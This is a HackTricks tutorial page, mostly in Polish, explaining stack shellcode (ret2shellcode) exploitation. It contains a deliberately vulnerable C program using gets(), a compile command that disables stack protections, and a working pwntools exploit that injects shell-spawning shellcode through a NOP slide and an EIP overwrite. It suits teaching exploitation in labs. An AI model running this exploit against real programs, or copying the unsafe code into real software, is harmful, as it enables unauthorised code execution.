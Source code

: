 # Stack Shellcode

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Basic Information

**Stack shellcode** to technika używana w eksploatacji binarnej, w której atakujący zapisuje shellcode na stosie podatnego programu, a następnie modyfikuje **Wskaźnik Instrukcji (IP)** lub **Rozszerzony Wskaźnik Instrukcji (EIP)**, aby wskazywał na lokalizację tego shellcode, co powoduje jego wykonanie. Jest to klasyczna metoda używana do uzyskania nieautoryzowanego dostępu lub wykonania dowolnych poleceń na docelowym systemie. Oto podział procesu, w tym prosty przykład w C oraz jak można napisać odpowiadający exploit w Pythonie z użyciem **pwntools**.

### C Example: A Vulnerable Program

Zacznijmy od prostego przykładu podatnego programu w C:
```c
#include <stdio.h>
#include <string.h>

void vulnerable_function() {
char buffer[64];
gets(buffer); // Unsafe function that does not check for buffer overflow
}

int main() {
vulnerable_function();
printf("Returned safely\n");
return 0;
}
```
Ten program jest podatny na przepełnienie bufora z powodu użycia funkcji `gets()`.

### Kompilacja

Aby skompilować ten program, wyłączając różne zabezpieczenia (aby zasymulować podatne środowisko), możesz użyć następującego polecenia:
```sh
gcc -m32 -fno-stack-protector -z execstack -no-pie -o vulnerable vulnerable.c
```
* `-fno-stack-protector`: Wyłącza ochronę stosu.
* `-z execstack`: Umożliwia wykonanie kodu na stosie, co jest konieczne do uruchomienia shellcode przechowywanego na stosie.
* `-no-pie`: Wyłącza niezależny od pozycji plik wykonywalny, co ułatwia przewidywanie adresu pamięci, w którym będzie znajdować się nasz shellcode.
* `-m32`: Kompiluje program jako 32-bitowy plik wykonywalny, często używany dla uproszczenia w rozwoju exploitów.

### Python Exploit using Pwntools

Oto jak można napisać exploit w Pythonie używając **pwntools** do przeprowadzenia ataku **ret2shellcode**:
```python
from pwn import *

# Set up the process and context
binary_path = './vulnerable'
p = process(binary_path)
context.binary = binary_path
context.arch = 'i386' # Specify the architecture

# Generate the shellcode
shellcode = asm(shellcraft.sh()) # Using pwntools to generate shellcode for opening a shell

# Find the offset to EIP
offset = cyclic_find(0x6161616c) # Assuming 0x6161616c is the value found in EIP after a crash

# Prepare the payload
# The NOP slide helps to ensure that the execution flow hits the shellcode.
nop_slide = asm('nop') * (offset - len(shellcode))
payload = nop_slide + shellcode
payload += b'A' * (offset - len(payload))  # Adjust the payload size to exactly fill the buffer and overwrite EIP
payload += p32(0xffffcfb4) # Supossing 0xffffcfb4 will be inside NOP slide

# Send the payload
p.sendline(payload)
p.interactive()
```
Ten skrypt konstruuje ładunek składający się z **NOP slide**, **shellcode** i następnie nadpisuje **EIP** adresem wskazującym na NOP slide, zapewniając, że shellcode zostanie wykonany.

**NOP slide** (`asm('nop')`) jest używany, aby zwiększyć szansę, że wykonanie "zsunie się" do naszego shellcode niezależnie od dokładnego adresu. Dostosuj argument `p32()` do początkowego adresu twojego bufora plus offset, aby trafić w NOP slide.

## Ochrony

* [**ASLR**](../common-binary-protections-and-bypasses/aslr/) **powinno być wyłączone**, aby adres był wiarygodny w różnych wykonaniach, w przeciwnym razie adres, w którym funkcja będzie przechowywana, nie zawsze będzie taki sam i potrzebowałbyś jakiegoś leak, aby dowiedzieć się, gdzie załadowana jest funkcja win.
* [**Stack Canaries**](../common-binary-protections-and-bypasses/stack-canaries/) również powinny być wyłączone, w przeciwnym razie skompromitowany adres zwrotu EIP nigdy nie będzie śledzony.
* Ochrona **NX** (../common-binary-protections-and-bypasses/no-exec-nx.md) **stosu** uniemożliwi wykonanie shellcode wewnątrz stosu, ponieważ ten obszar nie będzie wykonywalny.

## Inne przykłady i odniesienia

* [https://ir0nstone.gitbook.io/notes/types/stack/shellcode](https://ir0nstone.gitbook.io/notes/types/stack/shellcode)
* [https://guyinatuxedo.github.io/06-bof\_shellcode/csaw17\_pilot/index.html](https://guyinatuxedo.github.io/06-bof\_shellcode/csaw17\_pilot/index.html)
* 64bit, ASLR z wyciekiem adresu stosu, zapisz shellcode i przeskocz do niego
* [https://guyinatuxedo.github.io/06-bof\_shellcode/tamu19\_pwn3/index.html](https://guyinatuxedo.github.io/06-bof\_shellcode/tamu19\_pwn3/index.html)
* 32 bit, ASLR z wyciekiem stosu, zapisz shellcode i przeskocz do niego
* [https://guyinatuxedo.github.io/06-bof\_shellcode/tu18\_shellaeasy/index.html](https://guyinatuxedo.github.io/06-bof\_shellcode/tu18\_shellaeasy/index.html)
* 32 bit, ASLR z wyciekiem stosu, porównanie, aby zapobiec wywołaniu exit(), nadpisz zmienną wartością i zapisz shellcode i przeskocz do niego

{% hint style="success" %}
Ucz się i ćwicz Hacking AWS:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Ucz się i ćwicz Hacking GCP: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wsparcie dla HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegram**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Dziel się trikami hackingowymi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów github.

</details>
{% endhint %}
